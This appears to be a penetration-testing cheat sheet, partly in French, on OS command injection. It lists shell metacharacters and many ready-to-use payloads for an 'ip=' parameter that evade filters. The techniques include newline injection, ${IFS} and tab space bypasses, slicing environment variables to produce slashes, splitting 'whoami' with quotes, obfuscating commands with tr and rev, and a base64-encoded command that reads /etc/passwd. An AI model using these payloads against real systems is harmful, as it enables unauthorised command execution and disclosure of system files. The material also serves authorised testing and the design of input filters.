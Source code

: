 # Command Injection (OSi)

L'injection de commandes (Code Execution) est l'abus du comportement d'une application pour exécuter des commandes sur le système d'exploitation.

- L'injection de commande détaillée se produit lorsque l'application vous donne un retour ou une sortie sur ce qui se passe ou est en cours d'exécution.


## Injection Character
Divers métacaractères de shell peuvent être utilisés pour effectuer des attaques par injection de commande:

> Always try URL-Encoded Character

```sh
;
&
&&
||
|
``
\n -> %0a
$()
```

## Filter Evasion


[Plus de filtre](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space)

[Evasion Tools](./Evasion%20Tools.md)

**Bypassing Space Filters**

```sh
# Bypass Blacklisted Operators
ip=127.0.0.1%0a
ip=127.0.0.1%0a+
ip=127.0.0.1%0awhoami
ip=127.0.0.1%0a+whoami

# Using Tabs %09
ip=127.0.0.1%0a%09

# Using IFS
ip=127.0.0.1%0a${IFS}

# Using Brace Expansion
ip=127.0.0.1%0a{ls,-la}
```

**Bypassing Other Blacklisted Characters**

Like `slash /` or `backslash \` characters

```sh
ip=127.0.0.1%0a${PATH:0:1}${IFS}
ip=127.0.0.1%0a${LS_COLORS:10:1}${IFS}

ip=127.0.0.1${PATH:0:1}${IFS}
ip=127.0.0.1${LS_COLORS:10:1}${IFS}
ip=127.0.0.1$(tr '!-}' '"-~'<<<[)

# Windows
ip=127.0.0.1%HOMEPATH:~6,-11%
ip=127.0.0.1$env:HOMEPATH[0]
ip=127.0.0.1$env:PROGRAMFILES[10]
```

**Bypassing Blacklisted Commands**

When we have successfully bypassed the character filter.

```sh
ip=127.0.0.1%0aw'h'o'am'i
ip=127.0.0.1%0aw"h"o"am"i
ip=127.0.0.1%0aw\ho\am\i
ip=127.0.0.1%0awho$@ami

# Windows
ip=127.0.0.1%0awho^ami
```

**Advanced Command Obfuscation**

```sh

ip=127.0.0.1%0a$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
ip=127.0.0.1%0a$(tr%09"[A-Z]"%09"[a-z]"<<<"WhOaMi")
ip=127.0.0.1%0a$(rev<<<'imaohw')

# Windows
ip=127.0.0.1%0aWhOaMi
ip=127.0.0.1%0aiex "$('imaohw'[-1..-20] -join '')"

# Encoded Commands
echo -n 'cat /etc/passwd | grep 33' | base64 #Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

ip=127.0.0.1%0abash<<<$(base64+-d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw%3d%3d
```

